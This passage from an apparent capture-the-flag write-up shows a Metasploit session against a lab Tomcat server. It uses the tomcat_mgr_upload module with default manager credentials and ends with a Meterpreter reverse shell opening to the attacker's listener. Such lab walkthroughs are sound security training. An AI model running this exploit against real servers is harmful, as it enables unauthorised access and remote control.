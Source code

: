 Flags for User and Root are identified.

### msfconsole (with Metasploit Framework)

Metasploit Framework is a tool that identifies systematic vulnerabilities on servers and networks. Works with different operating systems and is open-source.

Type the use command to navigate to the tomcat manager upload http. Set the http password and username, rhosts, rport, lhost, and run. Search for flags by changing directory.

{% code overflow="wrap" lineNumbers="true" %}
```
└─# msfconsole                                                                        
                                                  
     ,           ,
    /             \                                                                                             
   ((__---,,,---__))                                                                                            
      (_) O O (_)_________                                                                                      
         \ _ /            |\                                                                                    
          o_o \   M S F   | \                                                                                   
               \   _____  |  *                                                                                  
                |||   WW|||                                                                                     
                |||     |||                                                                                     
                                                                                                                

       =[ metasploit v6.1.27-dev                          ]
+ -- --=[ 2196 exploits - 1162 auxiliary - 400 post       ]
+ -- --=[ 596 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Use help <command> to learn more 
about any command

msf6 > use multi/http/tomcat_mgr_upload
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/tomcat_mgr_upload) > set httppassword s3cret
httppassword => s3cret
msf6 exploit(multi/http/tomcat_mgr_upload) > set HTTPUSERNAME tomcat
HTTPUSERNAME => tomcat
msf6 exploit(multi/http/tomcat_mgr_upload) > set rhosts 10.10.10.95
rhosts => 10.10.10.95
msf6 exploit(multi/http/tomcat_mgr_upload) > set rport 8080
rport => 8080
msf6 exploit(multi/http/tomcat_mgr_upload) > set lhost 10.10.14.5
lhost => 10.10.14.5
msf6 exploit(multi/http/tomcat_mgr_upload) > run

[*] Started reverse TCP handler on 10.10.14.5:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying x33cL8kIeN...
[*] Executing x33cL8kIeN...
[*] Sending stage (58053 bytes) to 10.10.10.95
[*] Undeploying x33cL8kIeN ...
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 1 opened (10.10.14.5:4444 -> 10.10.10.95:49193 ) at 2022-12-08 17:10:17 +0000

```